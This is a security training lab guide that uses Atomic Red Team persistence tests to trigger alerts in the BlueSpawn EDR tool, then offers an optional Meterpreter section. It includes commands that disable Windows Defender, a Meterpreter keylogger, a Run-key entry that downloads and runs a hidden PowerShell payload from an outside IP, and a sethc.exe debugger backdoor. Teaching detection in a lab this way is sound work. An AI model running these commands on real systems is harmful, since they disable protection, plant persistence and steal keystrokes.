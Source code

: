 

# Atomic Red Team And Bluespawn

In this lab we will be using Bluespawn as a stand-in for an EDR system.  Normally full EDRs like Cylance and Crowdstrike are very expensive and tend not to show up in classes like this.  However, the folks at University of Virginia have done an outstanding job with BlueSpawn. 

BlueSpawn will monitor the system for "weird" behavior and note it when it occurs. For the money, it is great.

In this lab, we will be starting BlueSpawn and then running Atomic Red Team to trigger a lot of alerts.

First, we need to disable Defender. 
Start by opening up <b>Windows Powershell</b>.

![](attachments/OpeningPowershell.png)

Next, run the following command:

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/disableDefender.png)

This will disable Defender for this session.

>[!NOTE]
>
>If you get angry red errors, that is Ok, it means Defender is not running.


Now, let's open a command prompt by clicking on the icon in the taskbar:

![](attachments/openingcommandprompt.png)

 
Next, let’s change directories to tools and start Bluespawn:

<pre>cd \IntroLabs</pre>

<pre>BLUESPAWN-client-x64.exe --monitor --level Cursory</pre>
 
![](attachments/cdandstartbluespawn.png)

You should see something like this:

![](attachments/bluspawnlaunched.png)

If you made it this far, perfect! That means Bluespawn is up and running.

Now, let’s use Atomic Red Team to test the monitoring with BlueSpawn:

First, we need to open a PowerShell terminal. 

You can do this by selecting the icon in the taskbar:

![](attachments/OpeningPowershell.png)

Now we need to install and update Atomic Red Team. Run the following:

<pre>cd \</pre>

<pre>IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing);
Install-AtomicRedTeam -getAtomics -Force</pre>

>[!NOTE]
>
> This can take a bit. Be patient!

Once you see the following, you are set to move forward:

![](attachments/installationconfirmation.png)

Next, in the PowerShell Window we need to navigate to the Atomic Red Team directory and import the powershell modules:

<pre>cd C:\AtomicRedTeam\invoke-atomicredteam\</pre>

Then, install the proper `yaml` modules by running the following:

<pre>Install-Module -Name powershell-yaml</pre>

>[!NOTE]
>
>When prompted, press Y to install the modules.

<pre>Import-Module .\Invoke-AtomicRedTeam.psm1</pre>


Once we do this, we need to invoke all the Atomic Tests.

>[!IMPORTANT]  
>
>Don't do this in production...  Ever.
>  
>Always run tools like Atomic Red Team on test systems.
>
>We recommend that you run in on a system with your EDR/Endpoint protection in non-blocking/alerting mode. This is so you can see what the protection would have done, but it will allow the tests to finish so we are just going to run individual tests for now.

Run the following individually:

<pre>Invoke-AtomicTest T1547.004</pre>

<pre>Invoke-AtomicTest T1543.003</pre>

<pre>Invoke-AtomicTest T1547.001</pre>

<pre>Invoke-AtomicTest T1546.008</pre>


>[!TIP]
>
>If you get any “file exists” questions or errors, just select `Yes`.

It should look like this:

![](attachments/invokeatomicv1.png)

>[!NOTE]
>
>There might be some errors when this runs. This is 
normal.

>[!NOTICE]
>
>We had to cross reference the old numbering with the new.
>
>You can find that mapping here:
>
>https://attack.mitre.org/docs/subtechniques/subtechniques-crosswalk.json
>
>![](attachments/crossreference.png)


You should be getting a lot of alerts with Bluespawn! Switch tabs in your Terminal to see them:

![](attachments/bluespawndetections.png)

Now, let’s go back to the PowerShell window and clean up:

<pre>Invoke-AtomicTest All -Cleanup</pre>

It should look like this:

![](attachments/Clipboard_2020-06-23-13-36-10.png)

# Optional Section: Meterpreter

If you have more time, feel free to exploit system using the commands we went through in AppLocker or Sysmon and then run the following Meterpreter commands:

<pre>keyscan_start</pre>

<pre>keyscan_dump</pre>

![](attachments/Clipboard_2020-06-15-13-52-00.png)

<pre>shell</pre>

<pre>reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Payload /d "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://172.20.243.5:80/a'))\"" /f</pre>

<pre>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"</pre>

![](attachments/Clipboard_2020-06-15-14-00-53.png)


<pre>getsystem</pre>

![](attachments/Clipboard_2020-06-15-13-52-28.png)


![](attachments/Clipboard_2020-06-15-13-56-34.png)

***                                                                 

<b><i>Continuing the course? </br>[Next Lab](/IntroClassFiles/Tools/IntroClass/Portspoof/Portspoof.md)</i></b>

<b><i>Want to go back? </br>[Previous Lab](/IntroClassFiles/Tools/IntroClass/RITA_ADHD/RITA_ADHD.md)</i></b>

<b><i>Looking for a different lab? </br>[Lab Directory](/IntroClassFiles/navigation.md)</i></b>

***Finished with the Labs?***

Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

---



